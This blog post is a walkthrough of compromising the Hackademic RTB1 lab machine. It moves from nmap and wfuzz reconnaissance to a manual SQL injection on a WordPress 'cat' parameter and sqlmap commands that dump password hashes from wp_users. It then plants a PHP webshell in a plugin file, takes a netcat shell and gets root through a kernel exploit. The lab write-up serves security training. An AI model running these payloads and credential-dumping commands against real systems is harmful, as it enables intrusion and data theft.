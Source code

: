 ```yaml
---
layout: post
title: "hackademic:rtb1"
date: 2016-08-03 10:30:58 -0500
comments: true
categories: [vulhub, wordpress]
---
```


###Tools:

* Netdiscover
* Nmap
* Wfuzz
* Nikto
* Wpscan


###Vulnerabilities:
[Linux Kernel 2.6.36-rc8 - RDS Protocol Local Privilege Escalation](https://www.exploit-db.com/exploits/15285/)


<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`
{% img  /images/blog/vulhub/rtb1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.157 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.157 -p-`

{% img  /images/blog/vulhub/rtb1/Selection_002.png   [title manually exploit [alt text]] %}

Only port 80 is opening.

Use both wfuzz and nikto to scan the host, nothing interesting...

Check the page,

{% img  /images/blog/vulhub/rtb1/Selection_003.png   [title manually exploit [alt text]] %}

find a link `http://192.168.41.157/Hackademic_RTB1/`

use wfuzz to scan:

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.157/Hackademic_RTB1/FUZZ 2>/dev/null
```

{% img  /images/blog/vulhub/rtb1/Selection_004.png   [title manually exploit [alt text]] %}

There is a wordpress.

use wpscan to scan

`wpscan http://192.168.41.157/Hackademic_RTB1/`


{% img  /images/blog/vulhub/rtb1/Selection_005.png   [title manually exploit [alt text]] %}

There are a couple of exploits, I tried both of them and no luck.

Enumerate the page, find a possible SQL injection potint:

`http://192.168.41.157/Hackademic_RTB1/?cat=0'`

looks like parameter cat is vulnerable

{% img  /images/blog/vulhub/rtb1/Selection_009.png   [title manually exploit [alt text]] %}

next try:

`http://192.168.41.157/Hackademic_RTB1/?cat=0 order by 1`

{% img  /images/blog/vulhub/rtb1/Selection_016.png   [title manually exploit [alt text]] %}

keep trying until

`http://192.168.41.157/Hackademic_RTB1/?cat=0 order by 6`

{% img  /images/blog/vulhub/rtb1/Selection_010.png   [title manually exploit [alt text]] %}

got error. Now I know the current table in user by the vulnerable page has 5 columns.

next

`http://192.168.41.157/Hackademic_RTB1/?cat=0 union all select 1,2,3,4,5`

{% img  /images/blog/vulhub/rtb1/Selection_011.png   [title manually exploit [alt text]] %}

now I can use second column to do injection.

`http://192.168.41.157/Hackademic_RTB1/?cat=0%20union%20all%20select%201,@@version,3,4,5`

{% img  /images/blog/vulhub/rtb1/Selection_012.png   [title manually exploit [alt text]] %}

next use sqlmap to get all tables,

`sqlmap -u "http://192.168.41.157/Hackademic_RTB1/?cat=0" --dbms mysql --tables --level=5 --risk=3`

get table names:

{% img  /images/blog/vulhub/rtb1/Selection_017.png   [title manually exploit [alt text]] %}

I want to check table `wp_users`

`sqlmap -u 'http://192.168.41.157/Hackademic_RTB1/?cat=0' -D wordpress -T wp_users  --columns`

{% img  /images/blog/vulhub/rtb1/Selection_018.png   [title manually exploit [alt text]] %}


dump these two columns

`sqlmap -u 'http://192.168.41.157/Hackademic_RTB1/?cat=0' -D wordpress -T wp_users -C user_nickname,user_pass --dump`

{% img  /images/blog/vulhub/rtb1/Selection_019.png   [title manually exploit [alt text]] %}

now we can edit php webshell via plugin

{% img  /images/blog/vulhub/rtb1/Selection_020.png   [title manually exploit [alt text]] %}

Only textile1.php can be updated. Use that file to edit shell.

Setup netcat, and load `http://192.168.41.157/Hackademic_RTB1/wp-content/plugins/textile1.php`

get shell


{% img  /images/blog/vulhub/rtb1/Selection_021.png   [title manually exploit [alt text]] %}

`python -c 'import pty; pty.spawn("/bin/bash")'`

`uname -a`

get the `Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux`

I tried serveral local exploits and find this one works:

{% img  /images/blog/vulhub/rtb1/Selection_022.png   [title manually exploit [alt text]] %}

get the root:

{% img  /images/blog/vulhub/rtb1/Selection_023.png   [title manually exploit [alt text]] %}






